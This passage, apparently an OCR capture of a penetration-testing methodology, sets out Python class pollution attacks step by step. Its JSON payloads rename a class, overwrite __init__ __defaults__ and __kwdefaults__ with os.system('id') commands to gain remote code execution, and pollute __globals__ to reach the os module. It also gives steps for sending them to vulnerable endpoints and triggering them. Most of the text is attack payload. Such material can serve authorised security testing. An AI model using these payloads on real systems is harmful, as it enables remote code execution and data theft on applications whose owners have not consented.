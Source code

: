        # Exploit payload
       payload = {
           "__class__": {
               "__qualname__": "PollutedUser"
           }
       }
       user = User(payload)
       print(user)  # Will show <__main__.PollutedUser object at 0x...>
       ```
       - Testing insight: Look for error messages revealing Python class names

    2. **Python RCE via class pollution**:
       - Step 1: Confirm ability to manipulate class attributes
       - Step 2: Target special methods or default parameters that could lead to code execution
       - Step 3: Create a payload that modifies a class method to execute commands:
       ```python
       # Payload structure targeting __init__ default parameters
       {
           "__class__": {
               "__init__": {
                   "__defaults__": [{"command": "import os; os.system('id')"}]
               }
           }
       }
       ```
       - Step 4: Send the payload to a vulnerable endpoint
       - Step 5: Trigger code that instantiates objects of the polluted class
       - Example targeting kwdefaults for RCE:
       ```python
       # Payload targeting kwdefaults
       payload = {
           "__class__": {
               "__init__": {
                   "__kwdefaults__": {
                       "command": "__import__('os').system('id')"
                   }
               }
           }
       }
       ```
       - Testing insight: Different Python versions may require different pollution techniques

    3. **Python globals() access**:
       - Step 1: Identify if you can pollute the `__class__.__init__.__globals__` dictionary
       - Step 2: Attempt to access sensitive variables or modules through globals
       - Step 3: Create a payload targeting global variables:
       ```python
       {
           "__class__": {
               "__init__": {
                   "__globals__": {
                       "os": "__import__('os')"
                   }
               }
           }
       }
       ```
       - Step 4: Send the payload and check for signs of successful pollution
       - Step 5: Use access to globals to execute code or leak sensitive information
       - Example Python code showing globals access: